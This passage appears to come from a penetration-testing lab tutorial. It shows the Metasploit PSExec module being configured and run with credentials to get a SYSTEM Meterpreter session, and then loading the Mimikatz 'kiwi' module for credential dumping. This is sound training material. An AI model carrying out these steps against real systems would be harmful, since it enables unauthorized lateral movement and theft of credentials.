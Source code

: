 	- `set LHOST 172.22.117.100`
	
	 ![A screenshot depicts the results of the command.](Images/psexecoptions.PNG)
	
3. Run the module with `run`.

	 ![A screenshot depicts the results of the command.](Images/runpsexec.PNG)
	
Even though we set the credentials to `tstark`, the PSExec module in Metasploit will always open a session as SYSTEM due to how it executes the payload via service creation.


4. In your Meterpreter session, enable the Mimikatz modules by typing `load kiwi`, as the image shows:

	  ![A screenshot depicts the results of the command.](Images/loadkiwi.PNG)
